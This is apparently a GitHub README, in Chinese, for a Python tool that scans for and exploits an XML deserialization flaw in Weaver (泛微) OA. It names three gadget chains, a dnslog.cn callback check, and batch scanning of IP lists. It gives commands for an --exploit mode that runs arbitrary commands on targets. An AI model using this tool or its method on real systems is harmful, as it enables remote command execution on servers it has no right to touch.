 # 泛微OA XML反序列化检测工具
网上目前存在的payload主要利用bcel包，但经本地测试，jdk8后对bcel的classloader已停止支持，故利用可能性较小，本工具暂时内置3种gadget进行检测，
分别为com.sun.corba.se.impl.activation.ServerTableEntry、org.apache.commons.beanutils、com.sun.org.apache.bcel，后续会增加更多gadget支持及不出网回显功能。

*****
**Usage:**
````
usage: test_t00l.py [-h] [-i IP] [-r FILE] [-l LDAP] [--exploit [EXP]]
                    [cmd [cmd ...]]

泛微OA漏洞检测脚本

positional arguments:
  cmd

optional arguments:
  -h, --help            show this help message and exit
  -i IP, --ip IP        input the vulnarable ip:port
  -r FILE, --file FILE  input the ip file
  -l LDAP, --ldap LDAP  input the ldap-vps ip:port
  --exploit [EXP]       exploit mode
````
* 单ip检测：python test_t00l.py -i 127.0.0.1(可添加http://或https://)
* 支持批量ip检测：python test_t00l.py -r ip.txt
* 首先利用URLDNS结合dnslog.cn初步判断目标是否存在反序列化漏洞，之后利用三种gadget判断是否存在可远程命令执行：
  1.com.sun.corba.se.impl.activation.ServerTableEntry和org.apache.commons.beanutils采用ping dnslog.cn方式检测
  2.com.sun.org.apache.bcel采用阻塞线程方式检测
* 添加--exploit参数可执行命令：python test_t00l.py --exploit -i 127.0.0.1 whoami，如com.sun.org.apache.bcel包可利用则直接回显
* Evil.class为跟踪命令行后翻译出的bcel源码，也是网上目前流传的payload的利用类
